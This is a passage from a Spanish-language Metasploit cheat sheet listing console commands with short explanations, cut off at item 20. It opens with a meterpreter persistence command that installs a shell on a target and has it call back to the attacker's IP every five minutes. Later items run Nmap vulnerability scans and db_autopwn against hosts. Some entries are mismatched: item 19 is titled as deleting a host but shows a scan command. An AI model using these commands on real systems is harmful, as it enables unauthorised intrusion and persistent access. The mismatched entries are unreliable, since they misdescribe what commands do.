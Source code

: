     ```bash
    run persistence -U -i 5 -p <listening_port> -r <your_IP>
    ```

    * **Explicación:** Configura una shell persistente para ejecutarse en el sistema objetivo cada 5 minutos y conectarse a la dirección IP del atacante en el puerto especificado.



Algunos comandos adicionales de Metasploit, incluyendo aquellos relacionados con la gestión de la base de datos de Metasploit (MSFDB):

14. **Configurar la base de datos de Metasploit:**

    ```bash
    db_status
    ```

    * **Explicación:** Muestra el estado actual de la base de datos de Metasploit.
15. **Iniciar la base de datos de Metasploit:**

    ```bash
    db_start
    ```

    * **Explicación:** Inicia la base de datos de Metasploit si no está en ejecución.
16. **Importar hosts escaneados a la base de datos:**

    ```bash
    db_import <path/to/scanned_hosts.xml>
    ```

    * **Explicación:** Importa hosts escaneados desde un archivo XML a la base de datos de Metasploit.
17. **Mostrar información sobre hosts en la base de datos:**

    ```bash
    hosts
    ```

    * **Explicación:** Muestra información sobre los hosts almacenados en la base de datos.
18. **Mostrar información detallada sobre un host específico:**

    ```bash
    hosts -d <host_IP>
    ```

    * **Explicación:** Muestra información detallada sobre un host específico en la base de datos.
19. **Eliminar un host de la base de datos:**

    ```bash
    db_nmap -p <port_range> --script vuln <target_IP>
    ```

    * **Explicación:** Escanea un host específico utilizando Nmap con detección de vulnerabilidades y almacena los resultados en la base de datos.
20. **Ejecutar una auditoría de seguridad en hosts almacenados en la base de datos:**

    ```bash
    db_autopwn -p -R <host_filter>
    ```
